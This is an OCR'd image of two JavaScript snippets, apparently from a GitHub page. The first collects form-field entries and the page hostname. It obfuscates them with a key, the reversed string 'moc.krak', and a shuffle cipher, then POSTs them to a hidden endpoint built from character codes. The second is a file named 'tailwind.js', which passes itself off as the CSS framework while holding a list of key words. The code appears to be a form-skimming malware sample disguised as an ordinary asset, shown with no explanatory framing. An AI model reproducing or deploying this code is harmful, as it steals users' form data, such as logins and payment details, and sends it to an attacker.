 ```js
        r = {};
    for (const [e, o] of n.entries()) r.hasOwnProperty(e) ? (Array.isArray(r[e]) || (r[e] = [r[e]]), r[e].push(o)) : r[e] = o;
    const t = JSON.stringify(r);
    let c = Array.from((new TextEncoder).encode(t)).concat(Array((8 - t.length % 8) % 8).fill(0));
    k1 || (k1 = "moc.krak");
    const a = Array.from((new TextEncoder).encode(k1)),
        s = [];
    s.push(100), s.push(48), s.push(110), s.push(103), s.push(48);
    let h = location.hostname;
    h.length > 0 && (h = h.split("").map((e => e.charCodeAt(0))), s.push(...h)), s.push(0);
    const l = Math.floor(Date.now() / 1e3).toString(),
        i = new Uint8Array(await crypto.subtle.digest("SHA-256", (new TextEncoder).encode(l))).slice(0, 8);
    i.forEach((e => {
        e <= 256 && s.push(0)
    }));
    c = ((e, o) => {
        let n = Array.from(e),
            r = e.length;
        for (let e = 0; e < r; e++) t = o[e % o.length] % r, c = e, [n[t], n[c]] = [n[c], n[t]];
        var t, c;
        return n
    })(c, s.reduce(((e, o) => 0 === o || e.done ? (e.done = !0, e) : (e.result.push(o), e)), {
        result: [],
        done: !1
    }).result);
    a_func_a(c, a, i).forEach((e => {
        s.push(e)
    }));
    const u = String.fromCharCode(102, 105, 108, 101);
    fetch(o + u, {
        method: "POST",
        headers: {
            "Content-Type": "application/octet-stream"
        },
        body: new Uint8Array(s)
    }).then((e => {
        e.ok ? console.log("Success") : console.log("Error")
    })).catch((e => {
        console.error("Error:", e)
    }))
}));
const key = "moc.krak";
```

`tailwind.js`

```js
k1=["absolute","activate","baseline","blending","bordered","boxstyle","browsing","centrate","circular","clipping","collapse","columned","computed","contrast","cropping","cursived","declared","defaultt","dimcolor","disabled","dividing","dropping","ellipsis","emphasis","enlarged","expanded","facesize","fanciful","filtered","flexwrap","floating","fontsize","fontface","fonttype","foremost","formlook","gradient","graphics","gridlook","grouping","headings","hovering","imagemap","imported","inlining","innerbox","inputbox","inserted","isolated","italicst","junction","justifyt","kernings","keyframe","labeling","layering","leadings","lineheig","linktype","listitem","markdown","maskstyp","matching","maximums","measures","mimetype","minified","minwidth","mouseout","moveable","multisel","navstyle","negative","newtabst","nobreaks","nonclear","nospaced","numerate","offwhite","opaquely","outlines","overlaid","overflow","override","pacingst","paddings","pageflow","pagesize","paneling","patterns","pinnable","pointing"][Math.floor(90*Math.random())];
```
